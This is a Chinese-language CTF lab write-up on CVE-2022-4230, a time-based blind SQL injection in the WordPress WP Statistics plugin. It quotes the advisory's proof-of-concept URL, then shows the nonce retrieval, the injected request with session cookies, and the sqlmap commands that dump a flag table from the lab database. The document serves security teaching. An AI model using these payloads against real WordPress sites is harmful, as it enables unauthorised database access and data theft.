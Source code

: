 ```yaml
---
title: "CVE-2022-4230"
date: 2024-07-24
tags: ["春秋云镜","CVE","WordPress","SQLi"]
featured_image: "https://static.guyu.pro/yunjing.ichunqiu.com/CVE.webp"
draft: false
---
```


<https://wpscan.com/vulnerability/a0e40cfd-b217-481c-8fc4-027a0a023312>


## WP Statistics &lt; 13.2.9 - Authenticated SQLi


### Description

The plugin does not escape a parameter, which could allow authenticated users to perform SQL Injection attacks. By default, the affected feature is available to users with the manage_options capability (admin+), however the plugin has a settings to allow low privilege users to access it as well.

### Proof of Concept

```http
Log in as a user allowed to View WP Statistic and get a nonce via 

https://example.com/wp-admin/admin-ajax.php?action=rest-nonce

, and use it in the URL below, which will be delayed by 5s:

http://example.com/wp-json/wp-statistics/v2/metabox?_wpnonce=NONCE&name=words&search_engine=aaa%27%20AND%20(SELECT%205671%20FROM%20(SELECT(SLEEP(5)))Mdgs)--%20HsBR
```

## 演示

环境: [春秋云镜 免费空间>CVE-2022-4230](https://yunjing.ichunqiu.com/cve/detail/1165)

### 1.登录

站点名称 test  尝试 用户名`test` 密码 `test`

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/1.webp)

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/2.webp)


### 2.验证

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php?action=rest-nonce>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/3.webp)

获得`373ec6388f`

替换利用url的NONCE值为`373ec6388f`

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa%27%20AND%20(SELECT%205671%20FROM%20(SELECT(SLEEP(5)))Mdgs)--%20HsBR>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/4.webp)

### 3.利用

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa> 因为要在已登录状态注入，需要带上cookie

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/5.webp)

保存为1165，在url地址参数`search_engine=aaa`后添加`*`，让sqlmap指定位置注入

```http
GET /wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa* HTTP/1.1
Host: eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1721788611; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1721788611; HMACCOUNT=2484925BEB32E239; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_c2b05042e81e305748a3152f767ae796=test%7C1721961933%7C6aDuiQPvnYxV9n8rJoFMRrb2lLidmM44qJCWIkWBhpL%7C760092fb3e6b0d9fc2c20b27b5f932cc58550f89e95c485856a99d346212a418; wp-settings-time-1=1721789134
Connection: close
```

使用sqlmap注入

```bash
$ sqlmap -r 1165
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa' AND (SELECT 8907 FROM (SELECT(SLEEP(5)))nhIB) AND 'aFnu'='aFnu
---
[23:17:06] [INFO] the back-end DBMS is MySQL
[23:17:06] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
web application technology: PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

$ sqlmap -r 1165 --batch --current-db
current database: 'wordpress'

$ sqlmap -r 1165 --batch --tables -D wordpress
[23:31:20] [INFO] retrieved: flag

$ sqlmap -r 1165 --batch --dump -D wordpress -T flag
Database: wordpress
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{7f698f8b-2cde-4f19-ab79-5e96778812d4} |
+--------------------------------------------+
```

